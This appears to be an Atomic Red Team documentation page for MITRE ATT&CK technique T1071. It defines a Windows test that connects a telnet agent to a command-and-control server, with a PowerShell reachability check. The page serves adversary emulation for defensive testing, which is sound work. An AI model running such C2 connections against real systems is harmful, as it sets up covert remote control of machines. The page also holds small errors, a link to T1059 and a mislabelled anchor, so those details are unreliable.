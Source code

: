 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---autoit)


<br/>

## Atomic Test #1 - Telnet C2
Establish connection between compromised client to C2 server via Telnet

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | localhost |
| server_port | C2 server port | number | 23 |
| client_path | Path to telnet agent | path | PathToAtomicsFolder\T1071\src\telnet_client.exe |


#### Attack Commands: Run with `powershell`! 


```cmd
#{client_path} #{server_ip} --port #{server_port}
```

#### Dependencies Run with `powershell`!:
Start C2 server with telnet_server.exe in src folder. You can either start it on localhost or other IP.

```powershell
.\telnet_server.exe server_ip --port port_number
```

##### Description: C2 Server must be reachable.
##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}

if ($connection.TcpTestSucceeded) {
          Write-Output "#{server_ip} Port #{server_port} is reachable."
          exit 0
} else {
          Write-Output "#{server_ip} Port #{server_port} is unreachable."
          exit 1
}
```


<br/>
<br/>
